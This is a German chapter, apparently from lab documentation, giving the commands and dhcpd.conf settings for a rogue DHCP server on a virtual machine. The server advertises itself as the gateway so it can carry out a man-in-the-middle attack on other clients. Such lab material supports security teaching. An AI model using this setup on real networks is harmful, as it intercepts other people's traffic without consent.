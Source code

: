 # 6 Konfiguration Rogue DHCP
Die Installation des DHCP Servers findet auf der virtuellen Maschine "i40" statt, erfolgt jedoch analog zur Installation des für das Netzwerk authorativen DHCP Servers.

## Installation
```bash
apt install isc-dhcp-server
```

## Konfiguration
DHCP Server Konfiguration in der Datei ```/etc/dhcp/dhcpd.conf```. Zur besseren Darstellung stellt der Rogue DHCP Server eine DHCP Range von 10.0.0.100-10.0.253 bereit.
```bash
default-lease-time 600;
max-lease-time 7200;
ddns-update-style none;
authoritative;

subnet 10.0.0.0 netmask 255.255.255.0 {
	range 10.0.0.100 10.0.0.253;
	option subnet-mask 255.255.255.0;
	option domain-name-servers 10.0.0.1;
	option domain-name "i40-spoofed.lan";
	option routers 10.0.0.254;
	ddns-domainname "i40-network.lan";
	ddns-rev-domainname "0.0.10.in-addr.arpa.";
}
```

Bereitstellung der Konfigurationsdatei und Binden des Servers auf ein Interface in ```/etc/default/isc-dhcp-server```.
```bash
DHCPDv4_CONF=/etc/dhcp/dhcpd.conf
DHCPDv4_PID=/var/run/dhcpd.pid
INTERFACESv4="enp0s8"
```

## Start
Anschließend kann der DHCP Server gestartet werden:

```bash
systemctl start isc-dhcp-server
```

Bei der Konfiguration des Netzwerks neuer Clients sowie dem Neubezug der Netzwerkkonfiguration wird der Rogue DHCP Server aufgrund des Delays des authorativen DHCP Servers schneller antworten und somit seine Konfiguration verteilen. Diese Konfiguration beinhaltet sich selbst als Gateway, um den Netzwerkverkehr anderer Netzwerkteilnehmer in andere Netze untersuchen und eine MitM Attacke durchführen zu können.